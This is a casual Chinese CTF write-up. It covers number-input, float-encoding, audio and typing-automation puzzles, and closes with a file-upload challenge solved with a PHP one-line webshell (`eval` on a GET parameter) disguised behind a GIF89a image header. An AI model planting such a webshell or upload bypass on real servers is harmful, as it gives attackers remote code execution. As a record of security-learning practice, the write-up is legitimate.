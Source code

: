 ### get_my_number
早上上数据结构课也无聊，于是直接开启远程桌面写了点题- -。由于远程桌面是有点不方便操控的，于是就把题目都大概看了一下，看看有没有那种操作比较少的或者只有单个文件的那种，于是就看到pwn的这些题目了。
这个题目其实看源码我也是有点没搞明白具体原理是什么，只知道大概是比较什么。不过鉴于通过人数那么多，我觉得是不是只要随便输入一串巨大的数字就可以了？
还真是

### get_my_float
于是继续看pwn第二题，源码也写得很清楚了数值为0.618的时候通过，然后让我们写入字节，主要考察的是浮点数的底层表示吧。
这里找到个网站[Double (IEEE754 Double precision 64-bit) Converter](http://www.binaryconvert.com/convert_double.html),然后通过能输入16进制的网络工具输入就好了。不过值得注意的是，一般用的都是小端法，所以这串字节`0x3FE3C6A7EF9DB22D`得反着输入。

### cuora_and_her_shell
这道题最后也是没写出来，似乎是要写shellcode之类的，源码还很贴心地直接把写入的代码运行了。然而直到最后也是没有找到写进去成功的，大概还是有些问题没考虑清楚，令人感叹。或许我该用上一题的网络工具发送的而不是用Python，忘记了，沉迷Python了（

### thing dog
这时候已经上完课回来了，所以开始写这些比较要工具的了。这题是音频文件，看到群里唠嗑说分离左右音频，我马上打开我的Au进行分离，确实有个声道是一段不明所以的英文。我还真没整明白，上网搜还以为要看频谱图之类的，结果发现都没有，最后看群里才发现是那个北约呼号。结果感觉还是有些对不上，最后又看了下群里的记录，发现有人居然用的谷歌识别，学到许多，但还是不对。
最后突然悟了，它把左右括号和下划线的英文也读出来了，怪不得有些不在表内的英文，比如`underline`之类的。原来这样也行，怎么你们都会啊QAQ 

### typing train
这题昨晚就一直在写了，不过不是我在写，是js帮我在写。我觉得大概是真的要6666次才行，但想到那么多人过题又觉得是不是不对劲，最后还是写了一个油猴脚本狂暴帮我typing，后面还加了对于字符长度的判断。
```js
// ==UserScript==
// @match        http://124.220.41.254:20002/*  (这里要修改成这样，使用通配符)
(function() {
    'use strict';
    let a=document.getElementsByClassName("typing")[0].textContent;
    if(a.length==32){
        document.getElementsByName("input")[0].value=a;
        document.getElementsByTagName("form")[0].submit();
    }
})();
```
写完上一题之后没多久去那个页面看了看，发现出错了，然后旁边flag也出来了，虽然有点不明所以，不过大概是解出来了。

### background
看到来新题了，于是马上去看了看。好家伙，上传东西，得益于写sheep的时候搜索的大量资料，猜测大概使用一句话木马或者其变体来使用webshell。
最简单的一句话木马果然不行，后来看到有个gif89a图片文件头欺骗的方法[GIF89a图片头文件欺骗](https://blog.csdn.net/piaolankeke/article/details/5872876)，就试了一下:
```php
GIF89a
<?php @eval($_GET["aya"]); ?>
```
大概是这样，源代码成功之后被我删掉勒，甚至微软安全中心还报毒（
上传的时候还拦截了请求修改了一下后缀，不过后来看服务器里面似乎改没改后缀的都传进去了，大概是不改也没什么问题吧- -
不过修改背景图片也是挺好玩的
PS:吐了，刚刚写这个wp的时候写到这里之后就看到文档时不时抽搐，时有时无，关掉重开之后文件居然就无了，还好做了备份，不然得吐血。后面试了一下，黏贴保存之后关掉再打开，文件又无了。换位置换名字都是这样，我都开始怀疑是不是vscode对md的支持有什么问题了。后来想到，刚刚我不是写了一句话木马嘛，想到之前微软安全中心给我报毒的事，寻思是不是微软安全中心给我删掉了。结果一看，好家伙，还真是，躺了一大堆“风险”文件，难绷了。
